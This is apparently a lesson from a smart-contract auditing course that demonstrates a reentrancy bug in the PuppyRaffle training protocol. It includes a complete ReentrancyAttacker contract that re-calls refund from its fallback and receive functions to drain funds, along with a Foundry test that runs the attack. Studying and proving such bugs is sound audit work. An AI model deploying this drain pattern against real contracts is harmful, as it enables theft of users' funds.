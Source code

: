 ```yaml
---
title: Reentrancy - PoC
---
```


_Follow along with this video:_

---

### Reentrancy in PuppyRaffle

Returning to PuppyRaffle, let's look at how all we've learnt affects this protocol.

A look again at this `refund` function and we see a classic case of reentrancy with an external call being made before updating state.

```js
function refund(uint256 playerIndex) public {
    address playerAddress = players[playerIndex];
    require(playerAddress == msg.sender, "PuppyRaffle: Only the player can refund");
    require(playerAddress != address(0), "PuppyRaffle: Player already refunded, or is not active");

    // @Audit: Reentrancy
    payable(msg.sender).sendValue(entranceFee);

    players[playerIndex] = address(0);
    emit RaffleRefunded(playerAddress);
}
```

### The PoC

We can start by writing a new test in the protocol's `PuppyRaffle.t.sol` file. We'll have a bunch of players enter the raffle.

```js
function test_reentrancyRefund() public {
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

}
```

> **Note:** There _is_ a `playersEntered` modifier we could use, included in this test suite, but we'll choose to be explicit here.

Next we'll create our `ReentrancyAttacker` Contract.

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }
}
```

Once deployed, this `attack` function is going to kick off the attack. In order, we're entering the raffle, acquiring our `playerIndex`, and then refunding our `entranceFee`.

This is going to cause our entranceFee to be sent back to our contract ... what happens then?

```js
function _stealMoney() internal {
    if (address(puppyRaffle).balance >= entranceFee) {
        puppyRaffle.refund(attackerIndex);

    }
}

fallback() external payable {
    _stealMoney();
}

receive() external payable {
    _stealMoney();
}
```

Adding these functions to our `ReentrancyAttacker` contract finishes the job. When funds are sent back to our contract, the `fallback` or `receive` functions are called which is going to trigger another `refund` call in our `_stealMoney` function, completing the loop until the `PuppyRaffle` contract is drained!

<details>
<summary> ReentrancyAttacker Contract </summary>

```js
contract ReentrancyAttacker {
    PuppyRaffle puppyRaffle;
    uint256 entranceFee;
    uint256 attackerIndex;

    constructor(PuppyRaffle _puppyRaffle) {
        puppyRaffle = _puppyRaffle;
        entranceFee = puppyRaffle.entranceFee();
    }

    function attack() public payable {
        address[] memory players = new address[](1);
        players[0] = address(this);
        puppyRaffle.enterRaffle{value: entranceFee}(players);
        attackerIndex = puppyRaffle.getActivePlayerIndex(address(this));
        puppyRaffle.refund(attackerIndex);
    }

    function _stealMoney() internal {
        if (address(puppyRaffle).balance >= entranceFee) {
            puppyRaffle.refund(attackerIndex);

        }
    }
    fallback() external payable {
        _stealMoney();
    }
    receive() external payable {
        _stealMoney();
    }
}
```

</details>
:br

Alright, let's add this logic to our test. First we'll create an instance of the attacker contract and an attacker address, funding it with 1 ether.

```js
ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
address attacker = makeAddr("attacker");
vm.deal(attacker, 1 ether);
```

Next, we'll grab some balances so we're ablee to log our changes after the attack.

```js
uint256 startingAttackContractBalance = address(attackerContract).balance;
uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;
```

We finally call the attack, like so:

```js
vm.prank(attacker);
attackerContract.attack{value: entranceFee}();
```

Then we'll console.log the impact:

```js
console.log("attackerContract balance: ", startingAttackContractBalance);
console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
console.log(
  "ending attackerContract balance: ",
  address(attackerContract).balance
);
console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
```

<details>
<summary>test_reentrancyRefund</summary>

```js
function test_reentrancyRefund() public {
    // users entering raffle
    address[] memory players = new address[](4);
    players[0] = playerOne;
    players[1] = playerTwo;
    players[2] = playerThree;
    players[3] = playerFour;
    puppyRaffle.enterRaffle{value: entranceFee * 4}(players);

    // create attack contract and user
    ReentrancyAttacker attackerContract = new ReentrancyAttacker(puppyRaffle);
    address attacker = makeAddr("attacker");
    vm.deal(attacker, 1 ether);

    // noting starting balances
    uint256 startingAttackContractBalance = address(attackerContract).balance;
    uint256 startingPuppyRaffleBalance = address(puppyRaffle).balance;

    // attack
    vm.prank(attacker);
    attackerContract.attack{value: entranceFee}();

    // impact
    console.log("attackerContract balance: ", startingAttackContractBalance);
    console.log("puppyRaffle balance: ", startingPuppyRaffleBalance);
    console.log("ending attackerContract balance: ", address(attackerContract).balance);
    console.log("ending puppyRaffle balance: ", address(puppyRaffle).balance);
}
```

</details>
:br

All we need to do now is run this test with the command `forge test --mt test_reentrancyRefund -vvv` and we should receive...

::image{src='/security-section-4/23-reentrancy-poc/reentrancy-poc1.png' style='width: 75%; height: auto;'}

### Wrap Up

We did it! We've proven the vulnerability through our application of our PoC and we'll absolutely be submitting this as a finding - likely a `High`.

Be very proud of what you've learnt so far, you're now armed to safeguard De-Fi against some of the most prevalent vulnerabilities in Web3.

Let's go back to the code back and continue our recon in the next lesson.
